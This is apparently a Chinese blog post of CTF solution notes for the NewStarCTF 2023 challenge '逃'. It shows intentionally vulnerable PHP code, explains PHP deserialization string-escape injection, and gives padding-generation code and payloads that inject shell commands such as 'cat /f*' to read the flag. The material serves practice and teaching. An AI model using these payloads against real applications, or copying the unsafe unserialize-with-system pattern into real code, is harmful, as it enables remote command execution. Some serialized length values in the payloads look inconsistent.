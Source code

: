 ```yaml
---
title: '[NewStarCTF 2023 公开赛道]逃'
date: 2024-12-16 21:01:47
tags: 反序列化
categories: 刷题笔记
---
```


## [NewStarCTF 2023 公开赛道]逃

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key']))));
```

一眼看去是反序列化和字符串替换，这让我们想到字符串逃逸

由于题目帮我们构造好了序列化字符串，我们只能利用参数key进行操作

我们在本地先传个123

```
O:7:"GetFlag":2:{s:3:"key";i:123;s:3:"cmd";s:2:"whoami";}
```

我们需要逃逸出";s:3:"cmd";s:6:"whoami";}这串

由于cmd是进行命令执行的

我们要逃逸

```
";s:3:"cmd";s:6:"ls";}
```

bad和good相差一个字符，所以我们需要逃逸多少个字符就需要多少个bad

写个脚本

```
a='";s:3:"cmd";s:6:"ls";}'
b=""
for i in range(len(a)):
    b+="bad"
print(b+a)
//badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:2:"ls";}
```

也是成功运行了

![image-20241216213022069](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412162130275.png)

接下来就是查找flag所在的位置

```
badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:12:"ls ../../../";}
```

![image-20241216213357069](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412162133115.png)

```
badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:7:"cat /f*";}
```

得到flag
